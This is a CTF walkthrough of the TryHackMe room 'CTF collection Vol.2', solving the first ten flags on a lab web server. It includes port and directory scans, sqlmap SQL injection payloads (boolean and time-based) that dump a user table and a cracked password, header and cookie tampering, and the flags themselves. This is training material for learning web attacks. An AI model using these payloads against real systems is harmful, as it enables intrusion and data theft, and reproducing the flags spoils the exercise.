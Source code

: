 <p align="left">November 6, 2024 - Hey there, fellow lifelong learner!<br>
I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp; CTF collection Vol.2}}$$
</h1>

<p align="center">Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.<br>
                  Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/ctfcollectionvol2">CTF collection VOl.2</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/6628e1a4-ea67-4e69-b719-702b2fc07e4c">
  <img height="150px" src="https://github.com/user-attachments/assets/88772c45-e475-4d0a-a8cb-c1c1440725d7">
</p>

<h2>Task 1 - Author note</h2>

<p>Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.<br>

Now, deploy the machine and collect the eggs!</p>

<p>Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.</p>

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise</p>

> 1.1 - <em>Fact: Eggs contain the highest quality protein you can buy.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>



<h2>Task 2 - Easter egg</h2>

<p>Submit all your easter egg right here. Gonna find it all!</p>

> 2.1 - <em>Easter 1</em><br>
> <code>Question Hint</code>: Check the robots.
>> <strong>THM{4u70b07_r0ll_0u7}</strong>
<p></p>

<pre><code>$ rustscan -a 10.10.157.196 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
\U0001f30dHACK THE PLANET\U0001f30d

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.157.196:22
Open 10.10.157.196:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-06 21:27 UTC
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 21:27
Scanning 10.10.157.196 [2 ports]
Completed Ping Scan at 21:27, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:27
Completed Parallel DNS resolution of 1 host. at 21:27, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:27
Scanning ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196) [2 ports]
Discovered open port 80/tcp on 10.10.157.196
Discovered open port 22/tcp on 10.10.157.196
Completed Connect Scan at 21:27, 0.00s elapsed (2 total ports)
Initiating Service scan at 21:27
Scanning 2 services on ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Completed Service scan at 21:28, 6.09s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.157.196.
SE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.03s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.04s elapsed
Nmap scan report for ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Host is up, received syn-ack (0.00050s latency).
Scanned at 2024-11-06 21:27:53 UTC for 7s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
</code></pre>

![image](https://github.com/user-attachments/assets/7cf7a060-19c7-4740-9d08-d7c85c32c93f)

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://10.10.157.196 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.196
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://10.10.157.196/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://10.10.157.196/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://10.10.157.196/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://10.10.157.196/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://10.10.157.196/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

![image](https://github.com/user-attachments/assets/80d5876a-803a-4afe-be31-e0c21c0004ad)

![image](https://github.com/user-attachments/assets/710449d5-e0fa-4547-873a-d689be15fc48)

<pre><code>root@ip-[Attack_IP]:~# echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
root@ip-[Attack_IP]:~# 
</code></pre>

<br>

> 2.2 - <em>Easter 2</em><br>
> <code>Question Hint</code>: Decode the base64 multiple times. Don't forget there are something being encoded.
>> <strong>THM{f4ll3n_b453}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/6d2d90e5-e448-4968-9201-27d4026d44b7)

<pre><code>root@ip-[Attack_IP]:~# sudo apt-get install gridsite-clients
</code></pre>

<pre><code>root@ip-[Attack_IP]:~# urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
</code></pre>

![image](https://github.com/user-attachments/assets/34444a26-e7bc-418f-9ec4-2bf011f9ab03)

![image](https://github.com/user-attachments/assets/febcb3a7-3bbc-4e89-ad25-ad043f9daa53)     

<br>

> 2.3 - <em>Easter 3</em><br>
> <code>Question Hint</code>: Directory buster with common.txt might help.
>> <strong>THM{y0u_c4n'7_533_m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/0059e8dc-d592-4055-b802-8b35c146d8dc)

![image](https://github.com/user-attachments/assets/4c0cf585-4d13-4ecd-bee6-197160b3b139)

<br>

> 2.4 - <em>Easter 4</em><br>
> <code>Question Hint</code>: time-based sqli
>> <strong>THM{1nj3c7_l1k3_4_b055}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/56d0d814-c921-4443-8361-a38febbae083)

![image](https://github.com/user-attachments/assets/5b40e8da-e1a9-4c97-965c-e1b5905d80ed)

![image](https://github.com/user-attachments/assets/190353b2-b02f-4305-8e98-95c06212613e)

<pre><code>root@ip-[Attack_IP]:~# sqlmap -r request.txt --dbs --level 3 --risk 3
...
...
22:12:17] [INFO] testing 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause'
[22:12:17] [INFO] testing 'MySQL <= 5.0.11 time-based blind - ORDER BY, GROUP BY clause (heavy query)'
[22:12:17] [INFO] testing 'Generic UNION query (93) - 1 to 10 columns'
[22:12:18] [INFO] testing 'MySQL UNION query (93) - 1 to 10 columns'
[22:12:20] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 21062 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:12:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:12:20] [INFO] fetching database names
[22:12:20] [INFO] fetching number of databases
[22:12:20] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:12:20] [INFO] retrieved: 4
[22:12:20] [INFO] retrieved: information_schema
[22:12:21] [INFO] retrieved: THM_f0und_m3
[22:12:21] [INFO] retrieved: mysql
[22:12:21] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:12:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:12:22
</code></pre>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -D THM_f0und_m3 --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:14:05

[22:14:05] [INFO] parsing HTTP request from 'request'
[22:14:05] [INFO] resuming back-end DBMS 'mysql' 
[22:14:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:14:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:14:05] [INFO] fetching database names
[22:14:05] [INFO] fetching number of databases
[22:14:05] [INFO] resumed: 4
[22:14:05] [INFO] resumed: information_schema
[22:14:05] [INFO] resumed: THM_f0und_m3
[22:14:05] [INFO] resumed: mysql
[22:14:05] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:14:05] [INFO] fetching tables for database: 'THM_f0und_m3'
[22:14:05] [INFO] fetching number of tables for database 'THM_f0und_m3'
[22:14:05] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:14:05] [INFO] retrieved: 2
[22:14:05] [INFO] retrieved: nothing_inside
[22:14:06] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[22:14:06] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_ID]'

[*] shutting down at 22:14:06

root@ip-[Attack_IP]:~# 
</code></pre>

<br>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --columns
       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:17:23

[22:17:23] [INFO] parsing HTTP request from 'request'
[22:17:23] [INFO] resuming back-end DBMS 'mysql' 
[22:17:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:17:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:17:23] [INFO] fetching database names
[22:17:23] [INFO] fetching number of databases
[22:17:23] [INFO] resumed: 4
[22:17:23] [INFO] resumed: information_schema
[22:17:23] [INFO] resumed: THM_f0und_m3
[22:17:23] [INFO] resumed: mysql
[22:17:23] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:17:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[22:17:23] [INFO] fetching current database
[22:17:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:17:23] [INFO] retrieved: THM_f0und_m3
[22:17:23] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[22:17:23] [INFO] retrieved: 1
[22:17:23] [INFO] retrieved: Easter_4
[22:17:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[22:17:24] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:17:24

root@ip-10-10-146-248:~# 
</code></pre>


<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:19:29

[22:19:29] [INFO] parsing HTTP request from 'request'
[22:19:29] [INFO] resuming back-end DBMS 'mysql' 
[22:19:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:19:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:19:29] [INFO] fetching database names
[22:19:29] [INFO] fetching number of databases
[22:19:29] [INFO] resumed: 4
[22:19:29] [INFO] resumed: information_schema
  ...
  ...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[22:20:01] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:20:01] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: username
[22:20:01] [INFO] retrieved: password
[22:20:01] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[22:20:03] [INFO] retrieved: DesKel
[22:20:03] [INFO] retrieved: He is a nice guy, say hello for me
...  
</code></pre>

<br>

> 2.5 - <em>Easter 5</em><br>
> <code>Question Hint</code>: Another sqli
>> <strong>THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}</strong>
<p></p>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+
...
[22:45:04] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:45:04] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: username
[22:45:04] [INFO] resumed: password
[22:45:04] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: 05f3672ba34409136aa71b8d00070d1b
[22:45:04] [INFO] resumed: DesKel
[22:45:04] [INFO] resumed: He is a nice guy, say hello for me
[22:45:04] [INFO] resumed: Skidy
[22:45:04] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:45:09] [INFO] writing hashes to a temporary file '/tmp/sqlmapt34iIC14886/sqlmaphashes-XYsiDb.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q]                                                          
Database: THM_f0und_m3                                                                                                                   
Table: user
[2 entries] 
</code></pre>

![image](https://github.com/user-attachments/assets/dc41a558-f11a-4fef-98ca-e27711b03a3b)

<p>User: DesKel<br>
Password: cutie</p>

![image](https://github.com/user-attachments/assets/26d6e431-b377-4c90-b693-214c54fd0954)

![image](https://github.com/user-attachments/assets/6974dd72-3c96-470f-a51d-8ea3cc9cc7a6)

<br>

> 2.6 - <em>Easter 6</em><br>
> <code>Question Hint</code>: Look out for the response header.
>> <strong>THM{l37'5_p4r7y_h4rd}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/f6813926-8e54-4a6a-afd2-efcde1232507)

![image](https://github.com/user-attachments/assets/d97e119a-f9ed-4350-b6ad-6c346e267f6b)

<br>

> 2.7 - <em>Easter 7</em><br>
> <code>Question Hint</code>: Cookie is delicious
>> <strong>THM{w3lc0m3!_4nd_w3lc0m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/72ca764f-08cf-43ee-aecf-b8dd7f3bf03e)

<p>I sent it to Repeater changing <code>Cookie</code> parameter to <code>Invited=1</code> and it worked!</p>

![image](https://github.com/user-attachments/assets/826071a8-7644-4c28-80e5-c2d37f71f72a)

<br>

> 2.8 - <em>Easter 8</em><br>
> <code>Question Hint</code>: Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1
>> <strong>THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y}</strong>
<p></p>

<p>Using Burp, I intercepted a GET request to the main page, observing the <code>User-Agent</code>. </p>

![image](https://github.com/user-attachments/assets/40b9152c-f909-4b50-833f-ef0981da3793)

<br>

![image](https://github.com/user-attachments/assets/92fae6fc-b6d9-4073-ae4b-87fe0bc19019)

<br>

![image](https://github.com/user-attachments/assets/c27a5235-b83c-411e-8a4b-60e09ff75256)

<br>

> 2.9 - <em>Easter 9</em><br>
> <code>Question Hint</code>: Something is redirected too fast. You need to capture it.
>> <strong>______</strong>
<p></p>

<p>Review the Gobuster we run before ...</p>

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://[Target_IP] -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[Target_IP]
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://[Target_IP]/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://[Target_IP]/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://[Target_IP]/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://[Target_IP]/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://[Target_IP]/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

<p>When I tried <code>/ready</code> the web page is redirected.</p>

![image](https://github.com/user-attachments/assets/03090afd-533d-4228-b289-cb6a3345da34)

<p>After using the <code>Forward</code> feature, I found the flag.</p>

![image](https://github.com/user-attachments/assets/92f58b4e-3a1f-41c4-aa08-57d093d99327)

<p></p>

> .2.10 - <em>Easter 10</em><br>
> <code>Question Hint</code>: Look at THM URL without https:// and use it as a referrer.
>> <strong>THM{50rry_dud3}</strong>
<p></p>

<p>I reviewed my Gobuster enumeration again ...</p>

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://[Target_IP] -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[Target_IP]
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://[Target_IP]/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://[Target_IP]/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://[Target_IP]/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://[Target_IP]/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://[Target_IP]/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

<p>And decided to evaluate <code>free_sub</code>, and got this in BurpSuite ...</p>

![image](https://github.com/user-attachments/assets/3880660d-8b10-4087-9ecc-ec149a41fba7)

<p>The hint is <em:Look at THM URL without https:// and use it as a referrer</p>em>.<br>
So I sent it to the <code>Repeater</code>code> and added <code>Referer: tryhackme.com</code>.<br>
After clicking <code>Send</code>code>, I obtained the <code>Easter 10</code> flag. </p>

![image](https://github.com/user-attachments/assets/5a92c4de-29c0-4d41-86a8-0ecf3fde6108)









